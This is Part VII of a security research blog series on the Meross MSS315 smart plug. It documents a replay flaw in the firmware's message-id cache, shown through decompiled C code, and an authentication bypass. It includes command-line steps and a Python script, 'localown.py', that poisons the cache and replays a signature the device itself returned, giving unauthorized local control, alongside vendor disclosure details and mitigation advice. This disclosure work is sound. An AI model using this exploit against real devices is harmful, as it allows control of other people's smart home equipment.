




This post is part of a series; you are currently in **Part VII**:

- [Part I: Recon](../meross-part-1)
- [Part II: Mobile App](../meross-part-2)
- [Part III: Smartplug](../meross-part-3)
- [Part IV: Firmware](../meross-part-4)
- [Part V: AmebaZII](../meross-part-5)
- [Part VI: Mi casa es su casa (finally)](../meross-part-6)
- [Part VII: Findings Collection](../meross-part-6) <-- **you are here, at last**

---

Last but not least I have to discuss some of the bugs/findings I stumbled upon when analyzing the firmware rebuilt from [Part IV: Firmware](../meross-part-4).

> **Meross did acknowledge both issues but hasn't addressed them so far in the firmware of the MSS315 as of Nov. 2026.**
{: .prompt-danger }

## Store-now-replay-Later

The cryptographic signature of a message is derived from the configured
shared-key, the message identifier, namespace, and the timestamp; it is independent of the payload. One might say, Meross did address replay protection when [CVE-2021-35067](https://nvd.nist.gov/vuln/detail/cve-2021-35067) was published; *wrong*.

To get the why, lets dig trough some C code again. Below the the function called whenever a new packet is received:

```c
uint mrs_protocol_handle_package(cJSON *package_in,cJSON **out)
{
  cJSON *header;
  cJSON *payload;

  header = cJSON_GetObjectItem(package_in,"header");
  payload = cJSON_GetObjectItem(package_in,"payload");
  if ((header != (cJSON *)0x0) && (payload != (cJSON *)0x0)) {
    bVar1 = mrs_protocol_is_messageid_valid(header); // (1)
    if (bVar1) {
      iVar4 = mrs_protocol_check_package_sign(header); // (2)
      if (iVar4 == 0) {
    /* ... */
```

The general flow is:

1. verify that the message id wasn't received before (only last 20 messages are checked)
2. verify the signature of the received message

Why only the last 20 messages? It is the mitigation introduced to tackle [CVE-2021-35067](https://nvd.nist.gov/vuln/detail/cve-2021-35067). Why 20 you might ask again - I don't know. For reference, the cache function:

```c
bool mrs_protocol_check_messageid_repeat(char *namespace,char *msg_id)
{
  mrs_messageid_slot_s *pmVar1;
  int slot, int idx;
  mrs_messageid_slot_s *entry;
  longlong time;

  if (namespace != (char *)0x0) {
    if (msg_id == (char *)0x0) {
      return false;
    }
    idx = 0;
    entry = g_MessageIdList;
    slot = 0;
    do {
      iVar3 = __wrap_strncmp(msg_id,entry,32); // (1)
      if (iVar3 == 0) {
        __wrap_printf("%s message id repeat\r\n",namespace);
        return true;
      }
      /* ... */
      idx = idx + 1;
    } while (idx != 20); // (2) this check limits the history to 20 elments
    __wrap_printf("%s add message id %s to slot %d\r\n",namespace,msg_id,slot);
    time = __wrap_mktime();
    g_MessageIdList[slot].time = (uint)time;
    __wrap_strncpy(g_MessageIdList[slot].message_id,msg_id,32);
  }
  return false;
}
```

The function above first iterates over all message ids in the local cache (1)
and adds the new Id if not found. Interestingly, the history/cache is
limited to `20` elements (2).

The problem with this verification flow is that within `mrs_protocol_is_messageid_valid` (which calls the verification function shown above; `mrs_protocol_check_messageid_repeat`), the new unique message id is
added to the internal cache **before** verifying the signature.

So, what do we do with this? First, save the original request.
```console
$ mrs device query Appliance.System.Online --save-req initial_request.json
{'online': {'status': 0, 'bindId': 'b******', 'who': 1}}
```

{: .w-90 .rounded-10 w='800' h='740' .shadow .img-border }

The connection was immediately closed by the host, because we tried to reuse an existing message id.

Now, what does that mean? If an attacker captures **any** valid signed
message, e.g. via a Man-in-the-Middle attack, he can simply replay the
message later. Later? Yes, an attacker either waits for 20 other messages
being sent to the device **or** poisons the cache himself.

The important fact here is that we can replay any captured message under the same
namespace with a **different** payload.


### Cache Poisoning

Lets assume an attacker captures the *initial* valid request (or a response) from a device. Below simplified by saving the initial API
request to the device:

```bash
# Execute local API commad and save request
mrs device query Appliance.System.Online --save-req initial_request.json
```

{: .w-90 .rounded-10 w='750' h='740' .shadow .img-border }
*Initial API request to the device*

Next, an attacker sends `20` or more invalid requests with new unique
message ids:

{: .w-90 .rounded-10 w='1240' h='740' .shadow .img-border }
*Cache poisoning by sending requests signed with an invalid key*

Because the internal history/cache gets updated with each unique message
id, an attacker can now send the initial request again without receiving
a denied error.

```bash
# Send a message defined in JSON to the device
mrs device query --raw $FILE_PATH
```

{: .w-90 .rounded-10 w='550' h='740' .shadow .img-border }
*Replayed message*

If that's not enough for you; wait, there is more!

---

## localown.py

Gathering the informtion at hand: we can replay and captured request on the same namespace as long
as we got our hands on such a request. Let's take a step back and look at what is returned when
the `"sign error"` message is presented to the user: a valid message, **signed** using the device's
own configured shared key on the namespace **we** provide.

In short, we can perform a local authentication bypass by simply requesting an error message which
already contains the correct signed message. Packed into a Python script, `localown.py` looks something
like this:

```python
url = f"http://{argv.host}/config"

# invalid key to trigger the "sign error" message
key = "invalid"
base_message = LocalMessage.new(
    method="GET",
    namespace="Appliance.System.All",
    shared_key=key,  # use invalid key here
)
response = send_message(url, base_message, target=LocalMessage)

print("Got initial 'sign error' message")
final_msgid = response.header.messageId
final_sign = response.header.sign
final_time = response.header.timestamp
print(f"MessageId: {hide_credential(final_msgid)}")
print(f"Sign     : {hide_credential(final_sign)}")
print(f"Timestamp: {final_time}")
print("Performing cache poisoning...")
for round in range(argv.cache_size):
    try:
        base_message = LocalMessage.new(
            method="GET",
            namespace="Appliance.System.All",
            shared_key=key,  # use invalid key here
        )
        _ = requests.post(
            url,
            json=base_message.model_dump(by_alias=True),
            timeout=argv.timeout,
        )
    except (requests.exceptions.ReadTimeout, requests.exceptions.ConnectionError):
        pass

print("Requesting device information with previous signature...\n")
base_message.header.messageId = final_msgid
base_message.header.timestamp = final_time
base_message.header.sign = final_sign
base_message.header.namespace = argv.namespace
# request the original message again
response = send_message(url, base_message)
```

This is a universal solution for all Meross IoT devices that do not use encryption when
communicating.

> Meross has acknowledged the issue and "in the future, if validation fails, we plan to return no data.".
>
> As of writing this post in Nov. 2026 Meross hasn't changed the verification routine of the MSS315 smartplug (other models excluded).
{: .prompt-info }

Now, this is bad - but how can this be mitigated? There is a very simple way: the timestamp should not be older than the one from the previous message. Done.

> What can we do about it in the meantime? Isolate your Meross devices (VLAN) and use local HomeAssistant integrations as much as possible.
{: .prompt-tip }

---

All journeys have to end somehow and somewhere. Here is (hopefully) the end of this one. Even if I did not find a hardcoded backdoor, it definitely was fun,

- digging into how to build ELF files from firmware blobs,
- signing my own firmware with public keys (not the first time though) and tansferring it to the device,
- manually building a partition table by reversing its structure,
- learning some Rust along the waym
- finding an auth bypass, buffer overflows, some backend flaws,
- and of course doing some hardware hacking with UART involved.

I hope you had fun reading through this series too.

Thank you for staying until the end!